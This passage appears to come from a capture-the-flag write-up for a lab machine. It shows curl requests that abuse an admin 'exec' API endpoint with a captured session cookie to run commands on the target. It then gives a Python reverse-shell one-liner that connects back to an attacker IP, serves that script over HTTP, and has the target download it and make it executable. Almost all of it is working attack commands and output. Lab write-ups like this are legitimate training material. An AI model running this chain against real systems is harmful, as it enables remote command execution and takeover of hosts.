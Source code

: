 ```bash
HTTP/1.1 200 OK
Content-Length: 2
Content-Type: text/plain; charset=UTF-8

OK 
```

`curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=python3%20-v'`

```bash
HTTP/1.1 200 OK
Content-Length: 2
Content-Type: text/plain; charset=UTF-8

OK 
```

> **Reverse Shell & Privilege Escalation with Code Execution Phase**
> 

`nano reversepython.py`

```bash
import os,pty,socket;s=socket.socket();s.connect(("10.2.37.37",11445));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")
```

`python3 -m http.server 8000`

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

`curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=curl%20http://10.2.37.37:8000/reversepython.py%20-o%20/tmp/reversepython.py'`

```bash
HTTP/1.1 200 OK
Content-Length: 2
Content-Type: text/plain; charset=UTF-8

OK 
```

`curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=chmod%20+x%20/tmp/reversepython.py'`

```bash
HTTP/1.1 200 OK
Content-Length: 2
Content-Type: text/plain; charset=UTF-8

OK 
```
